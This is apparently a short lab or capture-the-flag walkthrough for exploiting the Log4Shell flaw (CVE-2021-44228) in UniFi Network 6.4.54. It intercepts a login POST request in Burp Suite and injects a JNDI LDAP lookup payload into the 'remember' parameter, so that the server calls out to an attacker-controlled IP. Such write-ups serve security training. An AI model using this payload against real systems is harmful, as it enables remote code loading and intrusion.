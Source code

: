 VULNERABLE PROGRAM: UniFi Network (6.4.54)<br>
CVE-2021-44228<br>
VULNERABILITY: log4j, can exploit "remember" parameter because it is an input field in the POST request and will be parsed by log4j

Use Burp Suite to intercept POST request and send to repeater.<br>
![Burp 1](./burp1.png)

Insert this payload into the vulnerable parameter
```
${jndi:ldap://10.10.14.172/file.txt}
```

jndi is the Java Naming and Directory Interface that log4j uses<br>
ldap is the protocol we want which stands for Lightweight Directory Access Protocol<br>
The IP is the host address<br>
We can enter any file we want.
